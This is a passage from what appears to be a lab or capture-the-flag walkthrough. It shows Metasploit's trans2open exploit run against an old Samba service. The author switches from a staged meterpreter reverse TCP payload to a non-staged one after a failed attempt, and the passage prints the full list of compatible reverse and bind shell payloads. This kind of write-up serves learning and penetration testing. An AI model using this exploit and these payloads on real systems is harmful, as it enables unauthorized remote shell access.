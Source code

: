 we can see that the exploit ware not executed successfully . if we look into the payload, we used staged payload ```linux/x86/meterpreter/reverse_tcp```  some times exploit will not work because of payloads, let's try to change payload to ```Non-Staged ``` payload 

```bash
[msf](Jobs:0 Agents:0) exploit(linux/samba/trans2open) >> show payloads

Compatible Payloads
===================

   #   Name                                              Disclosure Date  Rank    Check  Description
   -   ----                                              ---------------  ----    -----  -----------
   0   payload/generic/custom                                             normal  No     Custom Payload
   1   payload/generic/debug_trap                                         normal  No     Generic x86 Debug Trap
   2   payload/generic/shell_bind_tcp                                     normal  No     Generic Command Shell, Bind TCP Inline
   3   payload/generic/shell_reverse_tcp                                  normal  No     Generic Command Shell, Reverse TCP Inline
   4   payload/generic/ssh/interact                                       normal  No     Interact with Established SSH Connection
   5   payload/generic/tight_loop                                         normal  No     Generic x86 Tight Loop
   6   payload/linux/x86/adduser                                          normal  No     Linux Add User
   7   payload/linux/x86/chmod                                            normal  No     Linux Chmod
   8   payload/linux/x86/exec                                             normal  No     Linux Execute Command
   9   payload/linux/x86/meterpreter/bind_ipv6_tcp                        normal  No     Linux Mettle x86, Bind IPv6 TCP Stager (Linux x86)
   10  payload/linux/x86/meterpreter/bind_ipv6_tcp_uuid                   normal  No     Linux Mettle x86, Bind IPv6 TCP Stager with UUID Support (Linux x86)
   11  payload/linux/x86/meterpreter/bind_nonx_tcp                        normal  No     Linux Mettle x86, Bind TCP Stager
   12  payload/linux/x86/meterpreter/bind_tcp                             normal  No     Linux Mettle x86, Bind TCP Stager (Linux x86)
   13  payload/linux/x86/meterpreter/bind_tcp_uuid                        normal  No     Linux Mettle x86, Bind TCP Stager with UUID Support (Linux x86)
   14  payload/linux/x86/meterpreter/reverse_ipv6_tcp                     normal  No     Linux Mettle x86, Reverse TCP Stager (IPv6)
   15  payload/linux/x86/meterpreter/reverse_nonx_tcp                     normal  No     Linux Mettle x86, Reverse TCP Stager
   16  payload/linux/x86/meterpreter/reverse_tcp                          normal  No     Linux Mettle x86, Reverse TCP Stager
   17  payload/linux/x86/meterpreter/reverse_tcp_uuid                     normal  No     Linux Mettle x86, Reverse TCP Stager
   18  payload/linux/x86/metsvc_bind_tcp                                  normal  No     Linux Meterpreter Service, Bind TCP
   19  payload/linux/x86/metsvc_reverse_tcp                               normal  No     Linux Meterpreter Service, Reverse TCP Inline
   20  payload/linux/x86/read_file                                        normal  No     Linux Read File
   21  payload/linux/x86/shell/bind_ipv6_tcp                              normal  No     Linux Command Shell, Bind IPv6 TCP Stager (Linux x86)
   22  payload/linux/x86/shell/bind_ipv6_tcp_uuid                         normal  No     Linux Command Shell, Bind IPv6 TCP Stager with UUID Support (Linux x86)
   23  payload/linux/x86/shell/bind_nonx_tcp                              normal  No     Linux Command Shell, Bind TCP Stager
   24  payload/linux/x86/shell/bind_tcp                                   normal  No     Linux Command Shell, Bind TCP Stager (Linux x86)
```